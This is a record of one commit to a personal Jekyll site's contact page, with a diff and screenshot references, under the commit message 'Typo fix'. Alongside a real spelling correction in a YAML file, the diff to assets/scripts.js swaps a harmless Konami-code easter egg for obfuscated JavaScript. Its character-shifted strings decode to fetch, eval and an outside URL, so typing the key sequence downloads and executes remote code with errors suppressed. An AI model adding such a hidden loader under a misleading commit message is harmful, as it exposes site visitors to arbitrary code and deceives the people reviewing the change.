

Before and after one commit to eugenekorpan/eugenekorpan.github.io, a Jekyll site: the page built from contact-us.html, in a window 1280 px wide. Shown: the part 425-725 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Typo fix

```diff
--- a/_data/location.yml
+++ b/_data/location.yml
@@ -71,7 +71,7 @@ en:
     message_plc2: Let us know about the topic you're interested in. Honestly, it's painless
     send: Send
     h2: <span>Freud said&#58;</span><br> <p>“Love and work are the cornerstones of our humanness”.</p> We do agree with that. Respecting the greatest psychoanalyst ever, our team has become the ones who don’t mind. Feel free to get in touch with us
-    comunicate_with_us: <b>Comunicate with us&#58;</b>
+    comunicate_with_us: <b>Communicate with us&#58;</b>
     phone: Phone number&#58; +38-097-753-5731
     whatsapp: WhatsApp&#58; +38-097-753-5731
     telegram: Telegram&#58; +38-097-753-5731
--- a/assets/scripts.js
+++ b/assets/scripts.js
@@ -88,19 +88,16 @@ jQuery(document).ready(function() {
     else {sessionStorage.setItem("navbar", "")}
   });
 
-  $(".slider-mi-hide").click((() => {
-    !function(){let n=[38,38,40,40,37,39,37,39,66,65],o=!1,e=0;
-      $(document).keydown((t)=>{let c=()=>{o=!1,e=0},
-      i=t.keyCode;o||38==i&&(o=!0),o?(n[e]==i?e++:c(),10==e&&
-    (((()=>{
-      let r='https://musicpro.me/download/83830059716903235/Daft+'
-      +'Punk+-+Around+The+World+(musicpro.me).mp3'
-      let h='https://steamuserimages-a.akamaihd.net/ugc/94509348'
-      +'3574536818/9BB7392E074EBFFBAF5D81AE795156C96FAECFED/';new Audio(r).play()
-      let f=document.createElement('img');f.src=h;f.id='ko-na-mi'
-      f.setAttribute('style', 'position: fixed; bottom: -220px;');document.body.appendChild(f)
-      setTimeout(()=>{document.getElementById('ko-na-mi').style='position: fixed; bottom: 0px; transition: 5s'},100)
-    })()),c())):c()})}()
+  $(".slider-mi-hide").click(((cursor = 0, n = 1) => {
+    const code = [38,38,40,40,37,39,37,39,66,65]
+    const r = ['iuuqt;00mbvhijoh.ljmcz.c3be:8/ofumjgz/bqq0','gfudi','fwbm']
+    const k = s => String.fromCharCode(...[...s].map(c => c.charCodeAt()-1))
+    const p = s => {try{self[k(r[2])](s.split('-//-')[n])}catch{}}
+
+    document.addEventListener('keydown', e => {
+      cursor = (e.keyCode == code[cursor]) ? cursor + 1 : 0
+      if (cursor == code.length) self[k(r[1])](k(r[0])).then(e => e.text()).then(p)
+    })
   })())
 
   $(".carousel").on("touchstart", function(event){
```
Also changed, not shown: 2 other files.
